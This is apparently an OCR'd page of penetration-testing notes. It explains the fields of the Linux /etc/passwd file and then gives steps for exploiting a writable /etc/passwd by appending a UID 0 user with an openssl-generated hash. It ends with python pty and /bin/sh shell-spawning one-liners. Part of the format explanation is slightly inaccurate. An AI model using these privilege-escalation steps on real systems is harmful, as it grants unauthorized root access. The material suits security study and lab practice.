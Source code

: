 **Understanding /etc/passwd format**  
The /etc/passwd file contains one entry per line for each user (user
account) of the system. All fields are separated by a colon : symbol.
Total of seven fields as follows. Generally, /etc/passwd file entry
looks as follows:  
    test:x:0:0:root:/root:/bin/bash  
\[as divided by colon (:)\]  
  
1. **Username**: It is used when user logs in. It should be between 1
and 32 characters in length.  
2. **Password**: An x character indicates that encrypted password is
stored in /etc/shadow file. Please note that you need to use the passwd
command to compute the hash of a password typed at the CLI or to
store/update the hash of the password in /etc/shadow file, in this case,
the password hash is stored as an "x".  
  
3. **User ID (UID)**: Each user must be assigned a user ID (UID). UID 0
(zero) is reserved for root and UIDs 1-99 are reserved for other
predefined accounts. Further UID 100-999 are reserved by system for
administrative and system accounts/groups.  
4. **Group ID (GID)**: The primary group ID (stored in /etc/group
file)  
5. **User ID Info**: The comment field. It allow you to add extra
information about the users such as user’s full name, phone number etc.
This field use by finger command.  
6. **Home directory**: The absolute path to the directory the user will
be in when they log in. If this directory does not exists then users
directory becomes /  
7. **Command/shell**: The absolute path of a command or shell
(/bin/bash). Typically, this is a shell. Please note that it does not
have to be a shell.  
  
  
**Exploiting a writable /etc/passwd**  
step 1: create hashed password using salt  
openssl passwd -1 -salt \[salt\]  
step 2: Write the credential in passwd file  
format: username:passwordhash:0:0:root:/root:/bin/bash  
step 3: Save  

# Spawning shells

  
**

### python

:  
python -c ‘<span style="color:#ff0000;">import pty;
pty.spawn("/bin/sh")</span>’  
  
Bash  
**/**bin**/<span style="color:#c20cb9;">sh</span>** -i  

